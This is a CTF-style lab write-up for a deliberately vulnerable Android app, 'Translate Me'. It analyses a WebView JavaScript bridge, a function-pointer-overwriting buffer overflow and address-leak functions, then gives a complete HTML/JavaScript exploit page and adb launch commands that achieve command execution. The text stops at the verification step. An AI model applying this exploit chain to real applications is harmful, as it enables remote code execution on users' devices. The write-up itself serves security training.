


## Introduction
Welcome to the Android Application Security Lab: Translate Me Android Buffer Overflow Challenge. In this challenge, you'll explore a browser focused on providing real time translations. While the app is still in development, it seems the developers were in a hurry to deliver leaving behind a serious overflow vulnerability! Your goal is to investigate the browser, identify the issues, and understand how they can be leveraged to execute functions to reach command execution.

## Objective
- Investigate the Overflow: Analyze the Translate Me browser to identify potential security weaknesses emerging from memory corruption.
- Demonstrate Exploitation: Craft an exploit to reach command execution.

Decompile the apk with jadx-gui. `BrowserActivity` is a publicly accessible entry point in the app `exported="true"`, enabling it to handle specific intents. It can be launched as the main app via the home screen `MAIN` and `LAUNCHER` categories. The `BROWSABLE` category allows links to trigger this activity from browsers or external sources.

```xml
<activity
    android:theme="@style/Theme.TranslateMe"
    android:label="@string/app_name"
    android:name="com.mobilehackinglab.translateme.BrowserActivity"
    android:exported="true"
    android:configChanges="screenSize|orientation|keyboardHidden">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="http"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
```

## The JavaScript Bridge Vulnerability

The security flaw becomes apparent when examining how `BrowserActivity` initializes its WebView. During the browser setup, the app registers a JavaScript interface that bridges web content with native code:
```java
private void createBrowserContent(RelativeLayout parent) {
    ...
    Log.d("BrowserActivity", "Adding JavaScript interface TranslatorBridge");
    this.webView.addJavascriptInterface(new TranslatorBridge(), "TranslatorBridge"); // TranslatorBridge
    Log.d("BrowserActivity", "JavaScript interface added successfully");
```

This configuration creates a dangerous attack surface. Any webpage loaded in the browser can access the `TranslatorBridge` object and invoke its methods directly from JavaScript.


## Analyzing TranslatorBridge

The `TranslatorBridge` class exposes several critical methods through `@JavascriptInterface` annotations. Let's examine the key methods that enable exploitation:
```java
/* loaded from: classes3.dex */
public class TranslatorBridge {
    private static final String TAG = "TranslatorBridge";
    ...
    @JavascriptInterface
    public long getFunctionPointer() {
        Log.d(TAG, "getFunctionPointer called");
        try {
            Log.d(TAG, "About to call leakFunctionPtr native method");
            long result = leakFunctionPtr();
            Log.d(TAG, "leakFunctionPtr returned: " + result);
            return result;
        } catch (Exception e) {
            Log.e(TAG, "Error leaking function pointer: " + e.getMessage());
            e.printStackTrace();
            return 0L;
        }
    }

    @JavascriptInterface
    public long getSafeExecuteAddress() {
        Log.d(TAG, "getSafeExecuteAddress called");
        try {
            Log.d(TAG, "About to call getSafeExecutePtr native method");
            long result = getSafeExecutePtr();
            Log.d(TAG, "getSafeExecutePtr returned: " + result);
            return result;
        } catch (Exception e) {
            Log.e(TAG, "Error getting safe_execute_command address: " + e.getMessage());
            e.printStackTrace();
            return 0L;
        }
    }

    @JavascriptInterface
    public long getMallocAddress() {
        Log.d(TAG, "getMallocAddress called");
        try {
            Log.d(TAG, "About to call getMallocPtr native method");
            long result = getMallocPtr();
            Log.d(TAG, "getMallocPtr returned: " + result);
            return result;
        } catch (Exception e) {
            Log.e(TAG, "Error getting malloc address: " + e.getMessage());
            e.printStackTrace();
            return 0L;
        }
    }
    ...
}
```
### The Buffer Overflow Entry Point

The vulnerability lies in how user-controlled data reaches native code:
```java
@JavascriptInterface
public int testPayloadBytes(String payloadStr) {
    byte[] payload = payloadStr.getBytes();
    Log.d(TAG, "testPayloadBytes called with payload length: " + payload.length);
    try {
        Log.d(TAG, "About to call testPayload native method");
        int result = testPayload(payload, payload.length);
        Log.d(TAG, "testPayload returned: " + result);
        return result;
    } catch (Exception e) {
        Log.e(TAG, "Error testing payload: " + e.getMessage());
        e.printStackTrace();
        return -1;
    }
}
```

### The Payload Construction Helper

Interestingly, the developers included a method that practically writes the exploit for attackers:
```java
@JavascriptInterface
public String createPayload(long targetAddress, String command) {
    byte[] payload = new byte[command.length() + 72];
    
    // Fill first 64 bytes with padding
    for (int i = 0; i < 64; i++) {
        payload[i] = 66; // 'B'
    }
    
    // Write target address (8 bytes for 64-bit)
    for (int i2 = 0; i2 < 8; i2++) {
        payload[i2 + 64] = (byte) (255 & targetAddress);
        targetAddress >>= 8;
    }
    
    // Append command string
    byte[] commandBytes = command.getBytes();
    System.arraycopy(commandBytes, 0, payload, 72, commandBytes.length);
    
    return new String(payload);
}
```
## Diving into Native Code Analysis

After decompiling the native library with Ghidra, we can examine the actual vulnerability implementation. The native code reveals the complete exploitation chain and confirms our suspicions about the buffer overflow.


### The Vulnerable Structure

The `debug_print_struct_info()` function reveals the memory layout of the vulnerable structure

```c
void debug_print_struct_info(void){
  __android_log_print(3,"TranslateMe","=== DEBUG STRUCTURE INFORMATION ===");
  __android_log_print(3,"TranslateMe","vulnerable_struct_t size: %zu bytes",0x148);
  __android_log_print(3,"TranslateMe","buffer offset: %zu",0);
  __android_log_print(3,"TranslateMe","callback offset: %zu");
  __android_log_print(3,"TranslateMe","overflow_data offset: %zu",0x48);
  __android_log_print(3,"TranslateMe","buffer size: %zu bytes",0x40);
  __android_log_print(3,"TranslateMe","callback size: %zu bytes",8);
  __android_log_print(3,"TranslateMe","Debug symbol: 0x%x",0xdeadbabe);
  __android_log_print(3,"TranslateMe","===================================");
  return;
}
```


This gives us the critical memory layout:
- **Total structure size**: 0x148 (328 bytes)
- **Buffer starts at**: offset 0x0
- **Buffer size**: 0x40 (64 bytes)
- **Function pointer (callback) at**: offset 0x40 (64 bytes)
- **Callback size**: 8 bytes (64-bit pointer)

The structure layout in memory looks like this:

```
+-------------------+ offset 0x0
|                   |
|   buffer[64]      |  <- User-controlled input goes here
|                   |
+-------------------+ offset 0x40 (64 bytes)
|  callback_ptr     |  <- Function pointer we want to overwrite
+-------------------+ offset 0x48
|                   |
|  overflow_data    |
|                   |
+-------------------+ offset 0x148
```

### The Core Vulnerability: translate()

The `translate()` function contains the exploitable buffer overflow:

```c
void translate(undefined *param_1) {
  long lVar1;
  __pid_t _Var2;
  void *__ptr;
  undefined8 uVar3;
  undefined *local_80;
  
  local_80 = param_1;
  if (param_1 == (undefined *)0x0) {
    local_80 = &DAT_00100ad5;
  }
  __android_log_print(3,"TranslateMe","translate called with: %s",local_80);
  __android_log_print(3,"TranslateMe","translate address: %p",translate);
  _Var2 = getpid();
  __android_log_print(3,"TranslateMe","PID: %d",_Var2);
  __ptr = malloc(0x148);
  if (__ptr != (void *)0x0) {
    __android_log_print(3,"TranslateMe","Vulnerable structure allocated at: %p",__ptr);
    __android_log_print(3,"TranslateMe","Structure size: %zu bytes",0x148);
    __android_log_print(3,"TranslateMe","Buffer offset: %zu",0);
    __android_log_print(3,"TranslateMe","Callback offset: %zu");
    __android_log_print(3,"TranslateMe","Debug symbol: 0x%x",0xdeadbabe);
    *(code **)((long)__ptr + 0x40) = dummy_function;
    __android_log_print(3,"TranslateMe","Initial callback: %p",*(undefined8 *)((long)__ptr + 0x40));
    __memset_chk(__ptr,0,0x40,0xffffffffffffffff);
    if (param_1 != (undefined *)0x0) {
      uVar3 = __strlen_chk(param_1,0xffffffffffffffff);
      __memcpy_chk(__ptr,param_1,uVar3,0xffffffffffffffff);
      __android_log_print(3,"TranslateMe","After memcpy - callback: %p",
                          *(undefined8 *)((long)__ptr + 0x40));
      if ((*(long *)((long)__ptr + 0x40) == 0) || (*(code **)((long)__ptr + 0x40) == dummy_function)
         ) {
        lVar1 = *(long *)((long)__ptr + 0x40) + -0x1012a0;
        if (lVar1 == 0) {
          __android_log_print(0,3,"TranslateMe",
                              "Callback still points to dummy_function - overflow failed");
        }
        else {
          __android_log_print(lVar1,3,"TranslateMe","Callback is NULL - overflow corrupted it");
        }
      }
      else {
        __android_log_print(3,"TranslateMe","Callback was overwritten! Calling at: %p",
                            *(undefined8 *)((long)__ptr + 0x40));
        __android_log_print(3,"TranslateMe","String parameter in x0: %s",param_1);
        (**(code **)((long)__ptr + 0x40))(param_1);
        __android_log_print(3,"TranslateMe","Callback executed successfully");
      }
    }
    free(__ptr);
  }
  return;
}
```

1. A 64-byte buffer is allocated at the start of the structure
2. A function pointer (`callback`) is placed immediately after at offset 0x40
3. User input is copied with `memcpy()` **without any size validation**
4. If the input exceeds 64 bytes, it overwrites the function pointer
5. The overwritten function pointer is then called with our input as the argument!

### Arbitrary shell commands

The developers conveniently provided `safe_execute_command()` a function that executes arbitrary shell commands:

```c
void safe_execute_command(char *param_1) {
  char *local_20;
  
  local_20 = param_1;
  if (param_1 == (char *)0x0) {
    local_20 = "NULL";
  }
  __android_log_print(3,"TranslateMe","safe_execute_command called with: %s",local_20);
  __android_log_print(3,"TranslateMe","safe_execute_command address: %p",safe_execute_command);
  __android_log_print(3,"TranslateMe","Debug symbol: 0x%x",0xdeadcafe);
  if (param_1 != (char *)0x0) {
    system(param_1);
    __android_log_print(3,"TranslateMe","Command executed successfully");
  }
  return;
}
```
This function is our target. It:
- Accepts a string parameter
- Passes it directly to `system()`
- Executes arbitrary shell commands with the app's permissions


### The Entry Points

The native library exposes two entry points that call the vulnerable `translate()` function:

#### 1. translateContent (String-based)
```c

void Java_com_mobilehackinglab_translateme_TranslatorBridge_translateContent
               (long *param_1,undefined8 param_2,undefined8 param_3) {
  undefined4 uVar1;
  long lVar2;
  
  lVar2 = (**(code **)(*param_1 + 0x548))(param_1,param_3,0);
  uVar1 = (**(code **)(*param_1 + 0x540))(param_1,param_3);
  __android_log_print(3,"TranslateMe","translateContent called with input length: %d",uVar1);
  if (lVar2 == 0) {
    __android_log_print(3,"TranslateMe","Input is NULL, returning");
  }
  else {
    translate(lVar2);
    (**(code **)(*param_1 + 0x550))(param_1,param_3,lVar2);
  }
  return;
}

```

#### 2. translateContentBytes (Byte array-based)
```c
void Java_com_mobilehackinglab_translateme_TranslatorBridge_translateContentBytes
               (long *param_1,undefined8 param_2,undefined8 param_3) {
  int iVar1;
  long lVar2;
  void *__ptr;
  
  iVar1 = (**(code **)(*param_1 + 0x558))(param_1,param_3);
  lVar2 = (**(code **)(*param_1 + 0x5c0))(param_1,param_3,0);
  __android_log_print(3,"TranslateMe","translateContentBytes called with input length: %d",iVar1);
  if (lVar2 == 0) {
    __android_log_print(3,"TranslateMe","Input bytes are NULL, returning");
  }
  else {
    __ptr = malloc((long)(iVar1 + 1));
    if (__ptr == (void *)0x0) {
      __android_log_print(3,"TranslateMe","Failed to allocate memory for binary data");
      (**(code **)(*param_1 + 0x600))(param_1,param_3,lVar2,2);
    }
    else {
      __memcpy_chk(__ptr,lVar2,(long)iVar1,0xffffffffffffffff);
      *(undefined1 *)((long)__ptr + (long)iVar1) = 0;
      __android_log_print(3,"TranslateMe","Binary data copied, length: %d",iVar1);
      translate(__ptr);
      free(__ptr);
      (**(code **)(*param_1 + 0x600))(param_1,param_3,lVar2,2);
    }
  }
  return;
}
```

The `translateContentBytes()` version is particularly useful because it allows us to send raw bytes, making it easier to construct payloads without string encoding issues.

### Address Leak Functions

The native library provides functions to leak memory addresses and defeat ASLR:
```c
code * Java_com_mobilehackinglab_translateme_TranslatorBridge_getSafeExecutePtr(void) {
  __pid_t _Var1;
  
  __android_log_print(3,"TranslateMe","Leaking safe_execute_command address: %p");
  __android_log_print(3,"TranslateMe","safe_execute_command as integer: %llu",safe_execute_command);
  __android_log_print(3,"TranslateMe","safe_execute_command as hex: 0x%llx",safe_execute_command);
  __android_log_print(3,"TranslateMe","safe_execute_command debug symbol: 0x%x",0xdeadcafe);
  _Var1 = getpid();
  __android_log_print(3,"TranslateMe","PID: %d",_Var1);
  __android_log_print(3,"TranslateMe","Address size: %zu bytes",8);
  return safe_execute_command;
}
```
```c
code * Java_com_mobilehackinglab_translateme_TranslatorBridge_leakFunctionPtr(void) {
  __pid_t _Var1;
  
  __android_log_print(3,"TranslateMe","Leaking dummy_function address: %p");
  __android_log_print(3,"TranslateMe","dummy_function as integer: %llu",dummy_function);
  __android_log_print(3,"TranslateMe","dummy_function as hex: 0x%llx",dummy_function);
  __android_log_print(3,"TranslateMe","dummy_function debug symbol: 0x%x",0xdeadbeef);
  _Var1 = getpid();
  __android_log_print(3,"TranslateMe","PID: %d",_Var1);
  __android_log_print(3,"TranslateMe","Address size: %zu bytes",8);
  return dummy_function;
}
```

## Understanding the Exploitation Flow

Now we can piece together the complete exploitation chain:

### Step 1: Memory Layout Before Overflow
```
malloc(0x148) allocates structure:

0x0000: [64 bytes of buffer - cleared with memset]
  ...
0x0040: [dummy_function pointer] <- Initially set to dummy_function
0x0048: [overflow_data area]
  ...
```

### Step 2: Crafting the Payload

We need to send exactly **64 bytes of padding** followed by the address of `safe_execute_command`:
```
Payload structure:
[0-X]:   Command + shell comment (e.g., "whoami > /tmp/test; # ")
[X-63]:  Padding to reach 64 bytes total ('A' characters)
[64-71]: Address of safe_execute_command (8 bytes, little-endian)
```

Critical Detail: The command must come FIRST and include ; # to comment out the padding and address bytes that would otherwise crash the shell.

### Step 3: The Overflow in Action

When our payload is copied with `memcpy()`:
```c
__memcpy_chk(__ptr, param_1, strlen(param_1), 0xffffffffffffffff);
```

Memory becomes:
```
0x0000: ["whoami > /tmp/test; # AAA..."] (command + padding = 64 bytes)
0x0040: [safe_execute_command] <- Overwritten with our target address!
0x0048: [remaining bytes if any...]
```

### Step 4: Control Flow Hijacking

The code checks if the callback was overwritten:
```c
if ((*(long *)((long)__ptr + 0x40) != 0) && 
    (*(code **)((long)__ptr + 0x40) != dummy_function)) {
    
    // Call the overwritten function pointer with our full input!
    (**(code **)((long)__ptr + 0x40))(param_1);
}
```

Since our function pointer now points to `safe_execute_command`, this effectively becomes:
```c
safe_execute_command("whoami > /tmp/test; # AAAA...<address_bytes>");
```

### Step 5: Command Execution

The `safe_execute_command` function receives our full payload string and passes it to `system()`. `; #` shell commenting:

- The shell executes: `whoami > /tmp/test`
- Everything after` # `is treated as a comment and ignored
- The padding characters and binary address bytes don't crash the shell

This allows clean command execution despite the binary garbage in the payload.

## Building the Exploit

With our understanding of the native code, we can now craft a working exploit:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>TranslateMe Exploit</title>
        <style>
            body {
                font-family: monospace;
                background: #1e1e1e;
                color: #00ff00;
                padding: 20px;
            }
            #output {
                border: 1px solid #00ff00;
                padding: 10px;
                margin-top: 20px;
                white-space: pre-wrap;
                background: #0a0a0a;
                min-height: 200px;
            }
            button {
                background: #00ff00;
                color: #000;
                border: none;
                padding: 15px 30px;
                font-size: 16px;
                font-weight: bold;
                cursor: pointer;
                border-radius: 5px;
            }
            button:hover {
                background: #00cc00;
            }
            .container {
                max-width: 800px;
                margin: 0 auto;
            }
            h1 {
                color: #00ff00;
                border-bottom: 2px solid #00ff00;
                padding-bottom: 10px;
            }
        </style>
    </head>
    <body>
        <div class="container">
            <h1>TranslateMe Buffer Overflow Exploit</h1>
            <button onclick="runExploit()">Execute Exploit</button>
            <div id="output">[*] Ready to exploit... Click the button above to start.</div>
        </div>

        <script>
            function log(msg) {
                document.getElementById('output').innerHTML += msg + '\n';
                console.log(msg);
            }

            function runExploit() {
                document.getElementById('output').innerHTML = '[*] Starting exploit...\n';
                
                try {
                    // --- PRE-CHECK ---
                    if (typeof TranslatorBridge === 'undefined') {
                        log("[-] Exploit Failed: 'TranslatorBridge' JavaScript interface not found.");
                        log("[!] Make sure you opened this page in the TranslateMe app");
                        return;
                    }

                    log("[+] 'TranslatorBridge' interface found. Starting exploit...");

                    // --- PHASE 1: ASLR Bypass (Address Leaking) ---
                    var target_addr = TranslatorBridge.getSafeExecuteAddress();
                    log("[+] Leaked safe_execute_command address: 0x" + target_addr.toString(16));

                    if (target_addr === 0) {
                        log("[-] Exploit Failed: Leaked address is null.");
                        return;
                    }

                    // --- PHASE 2: Payload Construction (Command) ---
                    var cmd = "whoami > /data/data/com.mobilehackinglab.translateme/whoami; # ";
                    log("[+] Command: " + cmd);

                    // --- PHASE 3: Payload Construction (Padding) ---
                    var buffer_size = 64;
                    var padding = "A".repeat(buffer_size - cmd.length);
                    
                    // --- PHASE 4: 64-bit Address Encoding ---
                    var addr_bytes = "";
                    var temp_addr = target_addr;
                    for (var i = 0; i < 8; i++) {
                        var byte = temp_addr % 256; 
                        addr_bytes += String.fromCharCode(byte);
                        temp_addr = Math.floor(temp_addr / 256); 
                    }
                    
                    // --- PHASE 5: Final Payload Assembly ---
                    var payload = cmd + padding + addr_bytes;

                    log("[+] Payload constructed. Total length: " + payload.length + " bytes");
                    log("[+] Sending payload to trigger vulnerability...");

                    // --- PHASE 6: Triggering the Vulnerability ---
                    TranslatorBridge.translatePageBytes(payload);
                    
                    log("[+] Exploit sent successfully!");
                    log("[*] Check command output:");
                    log("[*] adb shell cat /data/data/com.mobilehackinglab.translateme/whoami");

                } catch (e) {
                    log("[!] Error during exploitation:");
                    log("[!] " + e.message);
                }
            }
        </script>
    </body>
</html>
```
## Execution

Start a web server to host the exploit:

```bash
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.100.21 - - [11/Nov/2025 15:04:57] "GET /exploit.html HTTP/1.1" 200 -
192.168.100.21 - - [11/Nov/2025 15:04:57] code 404, message File not found
192.168.100.21 - - [11/Nov/2025 15:04:57] "GET /favicon.ico HTTP/1.1" 404 -
```
Launch the exploit in the TranslateMe app:

```bash
adb shell am start -a android.intent.action.VIEW \
    -d "http://192.168.100.21:8080/exploit.html" \
    com.mobilehackinglab.translateme/.BrowserActivity
```



Verify the exploit worked:


